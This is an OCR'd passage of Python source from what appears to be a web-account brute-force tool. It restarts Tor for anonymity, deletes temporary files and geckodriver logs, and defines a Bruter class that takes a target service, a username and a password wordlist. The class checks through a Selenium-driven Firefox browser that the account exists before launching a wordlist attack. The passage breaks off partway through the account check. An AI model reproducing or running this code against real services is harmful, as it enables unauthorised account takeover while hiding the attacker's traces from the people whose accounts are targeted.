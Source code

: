         os.system("clear")

 
    os.system("/etc/init.d/tor restart && rm -rf tmp/ geckodriver.log") # restarting tor & removing geckodriver log


    with open('/etc/tor/torrc','r') as f:

        contents = f.readlines()

        data = contents[59]

        Hash = data.rsplit(":",1)[1]

    sys.stdout.write("[ " + G + "ok" + W + " ]" + " Successfully Scanned Password : " + Hash)

    Bruter(service, username, wordlist, delay).execute()


class Bruter(object):


    def __init__(self, service, username, wordlist, delay):

        self.service = service

        self.username = username

        self.wordlist = wordlist

        self.delay = delay


    def stopTOR(self):   # Stoping Tor

        os.system("rm -rf tmp/ geckodriver.log && service tor stop")

        exit(1)


    def execute(self):   # Connection Between def main() 
  
        if self.usercheck(self.username, self.service) == 1:

            print("[ " + R + "Error" + W + " ]" + " Username Does not Exist\n" + W)
            
            exit(1)

        print("[ " + G + "ok" + W + " ]" + " Checking Account Existence\n")

        self.webBruteforce(self.username, self.wordlist, self.service, self.delay)


    def usercheck(self, username, service):          # Checking Username

     #  display = Display(visible=0, size=(800, 600)) # Pyvirtual display starting

      # display.start()     

       driver = webdriver.Firefox()
